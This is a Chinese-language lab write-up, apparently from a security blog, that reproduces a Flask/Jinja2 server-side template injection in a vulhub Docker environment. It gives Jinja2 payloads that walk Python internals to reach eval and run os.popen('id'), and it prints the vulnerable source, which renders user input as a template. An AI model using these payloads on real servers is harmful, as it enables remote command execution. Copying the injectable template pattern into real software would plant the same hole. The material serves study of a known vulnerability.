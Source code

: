 ## Flask ssti服务端模板注入漏洞

---

### 创建环境

https://github.com/vulhub/vulhub/tree/master/flask/ssti

```bash
docker compose up -d
```



### 复现漏洞

存在SSTI漏洞

![image-20250203143756561](https://gitee.com/bx33661/image/raw/master/path/image-20250203143756561.png)

Payload

这里主要使用jinjia2语法

```python
name={% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
{% for b in c.__init__.__globals__.values() %}
{{b.__name__}}
...
{% endfor %}
{% endif %}
{% endfor %}
```



```bash
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("id").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```

![image-20250203151603914](https://gitee.com/bx33661/image/raw/master/path/image-20250203151603914.png)





该漏洞源代码如下

```python
from flask import Flask, request
from jinja2 import Template

app = Flask(__name__)

@app.route("/")
def index():
    name = request.args.get('name', 'guest')

    t = Template("Hello " + name)
    return t.render()

if __name__ == "__main__":
    app.run()
```

--->